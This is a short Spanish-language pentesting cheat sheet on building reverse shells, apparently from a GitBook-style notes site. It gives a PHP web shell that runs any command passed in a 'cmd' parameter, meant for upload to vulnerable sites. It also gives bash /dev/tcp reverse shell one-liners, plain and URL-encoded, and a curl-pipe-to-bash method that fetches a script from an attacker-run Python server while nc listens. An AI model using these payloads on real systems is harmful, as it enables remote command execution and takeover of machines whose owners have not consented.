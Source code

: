 ```yaml
---
icon: arrows-rotate-reverse
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reversing Shell's (Creación)

### Crear parametro cmd para ejecutar codigo en URL (PHP)

Para crear un `payload` en `php` que te cree una funcion llamada `cmd` y que al ejecutar cualquier comando con el parametro `cmd` te lo muestre de forma limpia y ordenada, craendo el siguiente contenido...

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Esto si lo subimos de forma maliciosa a cualquier pagina vulnerable o login vulnerable a ello o cualquier otro sitio que interprete codigo `php` podremos hacer lo siguiente...

```
http://example.com/example_uploads/<NAME_FILE>.php?cmd=<COMMAND>
```

### Hacer una `Reverse Shell` mediante un parametro URL o en una ejecuccion de comandos

La `Reverse Shell` mas tipica es la siguiente...

```shell
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Si por ejemplo se esta haciendo mediante una `URL` por si acaso lo `URL Encodearemos` de la siguiente manera...

```shell
bash -c "bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261"
```

```
%20 = <ESPACIO>

%26 = &
```

Si esto no funcionara habra que mirar en la siguiente pagina de ``Reverse Shell`s`` donde se pueden ver muchas...

URL = https://www.revshells.com

### Hacer `Reverse Shell` con curl

Esta tecnica es la que mas suele funcionar al intentar vulnerar maquinas con `Reverse Shell's` mediante `curl`, si por ejemplo tenemos una shell interactiva en la que podemos inyectar comandos en una pagina web ya sea por terminal o por `URL` y que tenga instalado `curl` podremos hacer lo siguiente para saber que tiene la herramienta instalada...

```shell
curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell...
